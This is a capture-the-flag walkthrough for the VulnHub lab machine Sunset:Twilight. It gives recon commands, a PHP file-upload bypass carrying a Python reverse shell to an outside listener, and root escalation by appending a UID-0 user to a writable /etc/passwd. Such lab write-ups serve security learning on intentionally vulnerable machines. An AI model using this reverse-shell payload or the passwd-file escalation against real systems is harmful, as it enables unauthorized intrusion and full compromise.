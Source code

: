 


# Sunset:Twilight Walkthrough 

**VulnHub Link:** [Sunset:Twilight](https://www.vulnhub.com/entry/sunset-twilight,512/)
**Difficulty:** Easy
**Release Date:** 16 Jul 2020


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.141
```


## 2.Web Enumeration

```bash
dirb http://192.168.100.141
```

we found /gallery in webpage 

uploaded shell.php but only jpeg files allowed

starting burp ...

Content-Type: image/jpeg
```php
<?php
        echo "<pre>";
        echo `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.14",1234));os.dup2(s.fileno(),0); os.dup2(s.>
        echo "</pre>";
?>
```

before command above , 
```
rlwrap nc -nvlp 1234
```
we got www-data shell 

uploading and executing linpeas.sh 

found out /etc/passwd is writable
```bash
openssl passwd test
```
root1:<write here output>:0:0:root:/root:/bin/bash

su root1
(password : test)

and BINGOO User and Root flag captured
